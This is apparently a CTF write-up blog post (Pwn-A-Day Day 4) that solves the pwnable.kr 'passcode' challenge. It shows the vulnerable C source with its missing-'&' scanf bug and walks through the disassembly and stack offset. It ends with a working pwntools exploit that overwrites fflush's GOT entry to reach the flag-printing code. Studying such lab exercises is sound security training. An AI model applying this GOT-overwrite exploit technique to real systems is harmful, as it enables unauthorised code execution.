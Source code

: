 ```yaml
---

layout: post
title: Pwn-A-Day Day-4
description: "Pwn challenges for a Month"
date: 2020-05-04
feature_image: images/pwn_a_day/front.png
tags: [Pwn-A-Day]
published: true

---
```



<!--more-->

Today I will show you 2 more challenges from this [site](http://pwnable.kr/play.php)

# Day 4

## Name - Passcode

So we are give with 3 files as usual lets look at the souce code

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Did you noticed something unusual ,
the **scanf** function right??

```c
scanf("%d", passcode1);
scanf("%d", passcode2);
```
So there should be a `&` sign infront of variable names denoting the address of the variable 

Lets checkout the disassembly of 3 function shown in code above

Main Function

![](images/pwn_a_day/day4/1.png)

Nothing to note here this just calls the *welcome* and *login* functions

Welcome Function

![](images/pwn_a_day/day4/2.png)

So we can see the stack location in the disassembly its `ebp-0x70`

Here we can see instruction lea performed on edx and ebp-0x70. We can translate it just as load the effective address (calculate it) and store in the edx register. From that information, we know that variable ebp-0x70 is the name variable.
Login Function

![](images/pwn_a_day/day4/4.png)


But here, unlike *name* buffer we don’t calculate the address of the variable passcode1, we just use it’s value with `mov edx,DWORD PTR [ebp-0x10]`. All the same with passcode2 - `mov edx,DWORD PTR [ebp-0xc]`.

Since name buffer and passcode1 are relatively close to each other we can overflow the buffer to modify the value of passcode1, so lets calculate the offset

```
offset=(ebp-0x70)-(ebp-0x10)
offset=96
```

so we can supply arbitrary 96 bytes followed by the required value of passcode1 in hex but there is no  way to modify the value of passcode2 because our input is restricted to 100 bytes so anything after 100 bytes will not be read ,so we have two option either to **bruteforce** the passcode2 or overwrite the **GOT entry of fflush function**as it is immediatly executed after scanf for passcode1 

U can read about GOT and PLT [here](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)

lets look for the address of fflush in the GOT table using `objdump -R <binary-name>` 

![](images/pwn_a_day/day4/3.png)

So we can form our payload as 96 'A's followed by fflush address followed by the address to point to which can be *0x080485d7* as it prints the login successful message followed by the flag 

I have shown my exploit below

```python
from pwn import *
ssh_connect=True
# context.log_level="debug"
if ssh_connect:
	server = ["pwnable.kr", 2222, "passcode", "guest"]
	ssh_handle=ssh(host=server[0],port=server[1],user=server[2],password=server[3])
	p=ssh_handle.process("./passcode")
else:
	elf=ELF("./passcode")
	p=elf.process()

fflush=0x0804a004
system=0x080485d7


p.recv()

payload="A"*96
payload+=p32(fflush)
payload+=str(system)

p.sendline(payload)

print p.recvall()

```
Finally the exploit in action!

![](images/pwn_a_day/day4/5.png)
